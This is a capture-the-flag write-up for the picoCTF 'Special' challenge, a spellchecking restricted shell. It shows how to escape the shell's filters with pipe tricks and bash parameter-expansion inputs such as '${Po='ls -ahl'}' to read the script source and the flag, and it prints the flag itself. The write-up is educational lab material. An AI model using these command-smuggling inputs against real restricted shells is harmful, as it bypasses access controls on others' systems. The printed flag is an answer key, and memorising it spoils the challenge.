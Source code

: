 ```yaml
---
tags:
  - Linux-Commands
  - bash
created: 2023-11-15
last_modified_at: 2024-02-04
---
```

# Special
---
### Description
---
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.

Additional details will be available after launching your challenge instance.
### Hints
---

> [!hint]- Hint(s)
> 1.  In shell scripting, including bash, the construct ${parameter='default'} is used for parameter expansion with a default value. Let me break down its components: ${parameter}: This is the basic form of parameter expansion. It allows you to reference the value of a variable named parameter. 'default': This is the default value that will be assigned to the variable if parameter is not set or is null.

### Step(s)
---
1. first we can check what the script is by finding where the file is by just hitting enter and you will get the response of 
```sql
Traceback (most recent call last):
  File "/usr/local/Special.py", line 19, in <module>
    elif cmd[0] == '/':
IndexError: string index out of range
Connection to saturn.picoctf.net closed.
```
This tells us that the script is located at '/usr/local/Special.py'

2.  if you use a pipe you can use the cat command example:
```python
Special$ d | cat /usr/local/Special.py
I | cat /usr/local/Special.py 
sh: 1: I: not found
#!/usr/bin/python3

import os
from spellchecker import SpellChecker



spell = SpellChecker()

while True:
  cmd = input("Special$ ")
  rval = 0
  
  if cmd == 'exit':
    break
  elif 'sh' in cmd:
    print('Why go back to an inferior shell?')
    continue
  elif cmd[0] == '/':
    print('Absolutely not paths like that, please!')
    continue
    
  # Spellcheck
  spellcheck_cmd = ''
  for word in cmd.split():
    fixed_word = spell.correction(word)
    if fixed_word is None:
      fixed_word = word
    spellcheck_cmd += fixed_word + ' '

  # Capitalize
  fixed_cmd = list(spellcheck_cmd)
  words = spellcheck_cmd.split()
  first_word = words[0]
  first_letter = first_word[0]
  if ord(first_letter) >= 97 and ord(first_letter) <= 122:
    fixed_cmd[0] = chr(ord(spellcheck_cmd[0]) - 0x20)
  fixed_cmd = ''.join(fixed_cmd)
  
  try:
    print(fixed_cmd)
    os.system(fixed_cmd)
  except:
    print("Bad command!")
```

3. Seeing this we can set a parameter to a linux command. for example:
```bash
Special$ ${Po='ls -ahl'}
${Po='ls -ahl'} 
total 0
drwxr-xr-x 1 ctf-player ctf-player 20 Nov 15 19:29 .
drwxr-xr-x 1 root       root       24 Mar 16  2023 ..
drwx------ 2 ctf-player ctf-player 34 Nov 15 19:29 .cache
drwxr-xr-x 2 ctf-player ctf-player 22 Mar 16  2023 blargh
```

4. When checking what is in the 'blargh' folder we find the flag.txt file
```ruby
Special$ ${Po='ls -ahl blargh'}
${Po='ls rahl blargh'} 
ls: cannot access 'rahl': No such file or directory
blargh:
flag.txt
```

5. Getting the flag is as easy as piping the cat command to it now
```bash
Special$ a | cat blargh/flag.txt
A | cat blargh/flag.txt 
sh: 1: A: not found
picoCTF{xxxxxxxxxxxxxxxxxxxx}Special$
```

### Flag
---
> [!question]- Flag
> picoCTF{5p311ch3ck_15_7h3_w0r57_0c61d335}







